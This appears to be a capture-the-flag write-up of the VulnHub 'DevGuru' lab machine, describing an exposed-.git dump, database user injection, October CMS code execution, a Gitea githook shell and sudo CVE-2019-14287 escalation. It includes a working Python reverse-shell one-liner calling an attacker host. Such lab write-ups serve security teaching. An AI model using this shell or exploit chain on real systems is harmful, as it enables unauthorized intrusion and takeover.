 # VulnHub-DevGuru

First of all let's do `netdiscover` on our interface with internet access because we locally have our machine running and we need to get it's ip address

## Netdiscover

Run `netdiscover -i wlan0` or `eth0`

<img src="https://imgur.com/U8GskLr.png"/> 

Alternatively this box gives us the ip address we need to scan for nmap , however it's not common that vulhub boxes have a banner to give local ip address when they bootup.

<img src="https://imgur.com/ruFBezk.png"/>

## NMAP

Now that we have the IP address of our target let's run nmap scan on it

```
Nmap scan report for 192.168.1.138
Host is up (0.00014s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2a:46:e8:2b:01:ff:57:58:7a:5f:25:a4:d6:f2:89:8e (RSA)
|   256 08:79:93:9c:e3:b4:a4:be:80:ad:61:9d:d3:88:d2:84 (ECDSA)
|_  256 9c:f9:88:d4:33:77:06:4e:d9:7c:39:17:3e:07:9c:bd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: DevGuru
| http-git: 
|   192.168.1.138:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Last commit message: first commit 
|     Remotes:
|       http://devguru.local:8585/frank/devguru-website.git
|_    Project type: PHP application (guessed from .gitignore)
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Corp - DevGuru
MAC Address: 08:00:27:C2:2E:66 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.61 seconds
```

So from the nmap scan we have 2 ports http and ssh but we see something intersting which `.git/` also we see a domain name `devguru.local`. Add the domain to `/etc/hosts`

<img src="https://imgur.com/4cGfA58.png"/>

<img src="https://imgur.com/Rt5p5UR.png"/>

On going to `register` tab we won't be able to register any user also we haven't found any creds.

<img src="https://imgur.com/oHgxDf5.png"/>

On port 80 we can also see a home page with clicking on the tabs pretty much doesn't do anything

<img src="https://imgur.com/UdhpGQU.png"/>
So I tried ruuning gobuster and found something interesting

<img src="https://imgur.com/AxkMwmb.png"/>

<img src="https://imgur.com/XMYfJ1y.png"/>

But it's the same thing we need credentials.

I did try to find some exploits for `gitea` and `october` but end up failing so the next thing we can do is try to dump the git repository that we saw from the nmap scan.To dump the git repository what you need is called GitTools , really an awesome tool

`https://github.com/internetwache/GitTools`

<img src="https://imgur.com/Jf8YhjE.png"/>

This script is going to download whatever it can from the repository.

<img src="https://imgur.com/X24yjss.png"/>

When it finishes it will look something like this

<img src="https://imgur.com/myHKpaI.png"/>

<img src="https://imgur.com/XNe3OSF.png"/>

Going through `objects` folder you'll find bunch of directories and you won't understand how would you read it so another script of extracting useful files from `.git` is called `Extractor` which comes with `GitTools`

<img src="https://imgur.com/nn9KMFV.png"/>

As you can see it will extract all the files we'll need so you definitely want to have it in your arsenal when it comes to dealing with `.git` on the webserver

<img src="https://imgur.com/79tIOWm.png"/>

<img src="https://imgur.com/rkuLmuZ.png"/>

Now two files that you want to look at ,first `adminer.php` which is database management tool means there's a databse which is connected to web application also in `config` folder you'll find `database.php` in which you can get credentials for logging into the database 

<img src="https://imgur.com/RpcLZ62.png"/>

<img src="https://imgur.com/FBGzWYp.png"/>

<img src="https://imgur.com/E2fuSWE.png"/>

Now we are logged in and we can pretty much do everything with the database so let's try creating a new user in the database or we can just clone the `frank` user but here we have to specify the password in that hash which is `bcrypt` seeing identifying it as it is starting from `$2$` 

Goto `cyberchef` or any other website from which you can generate a text to bcrypt hash and add it in the password field

<img src="https://imgur.com/xEAStaA.png"/> 

<img src="https://imgur.com/nJG03cp.png"/>

<img src="https://imgur.com/fuF2FRk.png"/>

Now we have added a new user and we should be able to login to the page we found through `gobuster`

<img src="https://imgur.com/FC2sUxX.png"/>

In order to get a shell from the october cms there something we can do is run php code inside html page but it's a little different.

Through goolging around a little I was able to find a forum where people asked about this thing and got several answers but the code that worked for me was

<img src="https://imgur.com/xlofAzs.png"/>

So let's try testing if this actually works

<img src="https://imgur.com/weWym8c.png"/>

<img src="https://imgur.com/qaJC62U.png"/>

This works so now we just have to setup a GET parameter in the code and run system commands

<img src="https://imgur.com/wbN92tc.png"/>

<img src="https://imgur.com/mTTcV5c.png"/>

We are almost just there (not really it is a real pain), just need a reverse shell.

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.7",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
This one worked for me

<img src="https://imgur.com/ZKCX50B.png"/>

Once we got in the things we could is to just look for any cronjob ruuning or to see if we can run anything as sudo

<img src="https://imgur.com/uVz8EHt.png"/>

But got no luck, now only options is to run `linpeas` and hope it finds something

<img src="https://imgur.com/e2HBws6.png"/>

<img src="https://imgur.com/F27JlAq.png"/>

Now it found something interesting which is a backup configuration file of that `gitea`. From that file we find creds for `gitea`'s database

<img src="https://imgur.com/E1Ix2Lu.png"/>


<img src="https://imgur.com/SKKhMFA.png"/>

We now have access to gitea database but here we have to add a new user in order to login to `gitea`

<img src="https://imgur.com/Fevo7ER.png"/>

<img src="https://imgur.com/lggp0ti.png"/>

It may look that it's only allowing pbkdf2 hashes but bcrypt also works

<img src="https://imgur.com/CuL90QX.png"/>

Now to get a reverse shell there is actullay an exploit for it 

`https://security.szurek.pl/en/gitea-1-4-0-unauthenticated-rce/`

By going through it explained we can get `remote code execution` if we have an administrator account on `gitea` because we need to have `githooks` to be enabled which is just a script that runs automatically whenever an event occurs on github repository. So what we are going to do is 

1. Create a repository (doesn't matter if it's empty)

2. Go to settings of the repository , githooks , click on update then add a reverse shell

3. Clone the repository

4. Add a file to the repository

5. Commit

6. Push

<img src="https://imgur.com/q8vnYmY.png"/>

<img src="https://imgur.com/QWfOLok.png"/>

<img src="https://imgur.com/SAlRS1q.png"/>

<img src="https://imgur.com/vlcqvrH.png"/>

<img src="https://imgur.com/saEKeue.png"/>

<img src="https://imgur.com/CFuHZLz.png"/>

And now if we go to our netcat listener , we will have a shell as `frank`

<img src="https://imgur.com/yNiz4YN.png"/>

<img src="https://imgur.com/gfTmCks.png"/>

<img src="https://imgur.com/4MBiuur.png"/>

Going throguh man pages of `sudoers` it says that we can run this can be ran as any user but not as `root`.

<img src="https://imgur.com/kbZNTkr.png"/>

Now a vulnerability exists in this scenario when a user is allowed to execute command as other users but not as root so when specifiy a user with `-u` and user id with `-1` it's going to consider is a `root` with id `0`

`https://blog.aquasec.com/cve-2019-14287-sudo-linux-vulnerability`

<img src="https://imgur.com/9ihFY4q.png"/>

So this was a really an intersting box that first we have to dump the git repository then look for important files after that get our intial foothold as `www-data` through that look for some configuration files ,edit database ,add repository then push our changes into it did learned a lot from this it was my first vulnhub machine that I rooted !!!